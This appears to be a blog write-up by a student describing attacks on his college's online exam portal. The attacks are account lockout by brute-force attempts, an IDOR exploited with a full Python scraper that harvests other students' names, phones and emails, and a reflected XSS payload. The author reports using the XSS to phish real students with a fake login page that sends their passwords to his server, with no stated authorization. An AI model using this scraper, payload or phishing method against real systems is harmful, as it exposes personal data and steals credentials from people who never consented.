 ```yaml
---
layout: post
title:  "Hacking college exam portal"
description: In this writeup I will show that how I found email address and phone numbers disclosure by exploiting IDOR.
---
```


I'm a student and I'm interested in web application security testing. Due to COVID-19, colleges decided to conduct online exams, so before the exam, they provided us with the credentials of an online exam portal, so I decided to test the security of this portal.

I setup Burp Suite on my system and started exploring the functionality of the website. Starting with the login functionality

![image](../../../assets/images/clg-hack-1.png){: .imagePopup}

I tried for SQL Injection but didn't find any. Then I tested for lack of rate limiting protection because the password they had provided is just a 6 capital alphabet, so hacking a password of this length by brute forcing is quite easy. 

I used an intruder with a null payload to test for rate limiting.

![image](../../../assets/images/clg-hack-2.png){: .imagePopup}

and after some requests, the account got locked and I was not able to login into the account. This can also be exploited by any malicious user during an exam as he/she has the ability to lock the account of any user by just knowing their roll number and the student cannot give the exam without logging in.

### Vulnerability:  Insecure direct object references (IDOR)

After logging into my account, I found the Preview Application functionality where we can see our information like Name, Phone Number, Email, Course, etc.

Basically, it is a preview of our exam registration form with all the details.

![image](../../../assets/images/clg-hack-3.png){: .imagePopup}

So I checked in Burp Suite and found that it is sending a POST request to `REDACTEDApplicationPreview.obj` with 3 parameters in the body, i.e., `compCode`, `login_id` and I cannot disclose the third parameter name.

Where value of `login_id` is our roll number so I changed my roll number with the roll number of other students and I got the details of their exam registration form, which included name, phone number, email address, course etc.

![image](../../../assets/images/clg-hack-4.png){: .imagePopup}

I also found a website that has the roll numbers of all the students, so by running a one-line JavaScript code in the browser console, we can obtain the list of roll numbers.


```js
x=document.getElementsByClassName("limit-char");for(i=0;i<x.length;i++){console.log(x[i].innerHTML)}
```

![image](../../../assets/images/clg-hack-6.png){: .imagePopup}

# Exploiting

Now writing an exploit to automate this process. I wrote a Python script which takes a list of roll numbers and fetches the name, email, and phone number of that user.

```python
import requests
import re
from bs4 import BeautifulSoup

def fetch_info(uid):
	url =  'https://vulnerable-endpoint'

	headers = {

		"Content-Type": "application/x-www-form-urlencoded",
		"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"

	}

	payload = {
		"compCode":"111111",
		"login_id":uid,
		"REDACTED":"111111"
	}

	r = requests.post(url, data=payload, headers=headers)
	soup = BeautifulSoup(r.text, 'html.parser')
	soup = soup.find_all('td')
	
	roll_no = re.sub(r"</?td>", "", str(soup[1]))
	name = re.sub(r"</?td>", "", str(soup[2]))
	phn = re.sub(r"</?td>", "", str(soup[3]))
	email = re.sub(r"</?td>", "", str(soup[4]))

	print(f"[==================]\n[+] {name}\n[+] {roll_no}\n[+] {phn}\n[+] {email}")

if __name__ == '__main__':
	with open('ids.txt', 'r') as f:
		for i in f.readlines():
			uid = i.split("\n")[0]
			fetch_info(uid)
```

After running the above python script, we can fetch the details of all users.

![image](../../../assets/images/clg-hack-5.png){: .imagePopup}

### Vulnerability: Reflected Cross Site Scripting (XSS)

After some enumeration, I found an endpoint `verificationCompany.obj` which is reflecting the `pageurl` parameter in response so I injected the HTML tag so see If it is encoding or not and I found that special characters such as `"`, `>`, `<` are not encoded in source code.

![image](../../../assets/images/clg-hack-7.png){: .imagePopup}

Then I created a XSS payload i.e., `"><script>alert(document.domain)</script>"` and got an alert popup in browser.

![image](../../../assets/images/clg-hack-8.png){: .imagePopup}

I tried to convert this XSS to an account takeover but failed, So I decided to use this XSS for phishing attack because I have emails of all the students so I created a fake login page which sends the username and password to my server.

I changed the website interface to a fake login page by using the JavaScript because we have XSS so we can run own JavaScript in Victim's browsers, So user will see the website is secure and legit but we are running our own code.

Created a phishing mail and sent to some emails.

![image](../../../assets/images/clg-hack-9.png){: .imagePopup}

Once the user will login with the link in email, their usersname and password will be sent to my server and then I can login into account.

![image](../../../assets/images/clg-hack-10.png){: .imagePopup}


Thanks for reading :)
